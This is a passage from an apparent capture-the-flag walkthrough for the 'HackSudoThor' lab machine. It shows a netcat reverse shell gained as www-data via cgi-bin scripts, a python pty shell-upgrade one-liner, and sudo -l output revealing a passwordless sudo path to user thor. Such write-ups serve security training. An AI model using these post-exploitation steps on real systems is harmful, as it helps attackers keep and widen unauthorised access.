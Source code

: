 > On our system, we launch the `netcat` listener and send a request:

<p align="center">
 <img src="./screenshots/reverse_shell.png" alt="reverse_shell" />
</p>

> We gain access to the system under the `www-data` account.

> [!NOTE]
You can use any of the existing `cgi-bin` scripts. It doesn't matter.

---
## 🔑↔️  Horizontal Privilege Escalation

> Upgrading the terminal shell to `pty` (`pseudo`):

```bash

python3 -c 'import pty; pty.spawn("/bin/bash")'
^Z
stty raw -echo;fg
export TERM=xterm-256color
reset

```
```bash

bash-4.3$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash-4.3$

```
> Let's print information from the `sudoers` configuration to find out what commands the current user can run with `sudo`:

```bash

bash-4.3$ sudo -l

Matching Defaults entries for www-data on HackSudoThor:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on HackSudoThor:
    (thor) NOPASSWD: /home/thor/./hammer.sh

bash-4.3$

```
> The user `www-data` is allowed to run the script `hammer.sh` as ​​user `thor` without having to enter a password via `sudo`.
